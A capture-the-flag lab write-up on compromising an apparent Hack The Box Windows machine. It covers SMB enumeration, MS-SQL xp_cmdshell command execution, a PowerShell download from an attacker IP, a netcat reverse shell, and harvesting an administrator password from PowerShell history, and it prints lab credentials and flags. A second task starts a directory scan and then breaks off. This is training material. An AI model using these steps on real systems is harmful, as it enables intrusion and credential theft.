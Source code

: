 ## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile    C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP

    xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
    ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```

   In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3

   ![scan port](./image/Task5_get_user.jpg)


9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
    
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe .\winPEASx64.exe
    
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

      We got the password,
   
      ```bash
      
      $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
      
      ```
   
11.  Login as Administrator

        We use impacket pasexec.py:

        ```bash
     
        python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
        
        ```

     or use the Evil-WinRm:

       ```bash
       
       evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
       
       ```

       After this, we can read the root flag:

       ```bash
    
       cd C:\Users\Administrator\Desktop
       type root.txt
        
       ```
    
       get the root flag: b91ccec3305e98240082d4474b848528.

      ![scan port](./image/Task5_get_root.jpg)

## Task 2

### 🛠️The process of solving task2

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can get into the page successfully.

   ![scan port](./image/Task5_login.jpg)
   

   
   
   


     
    
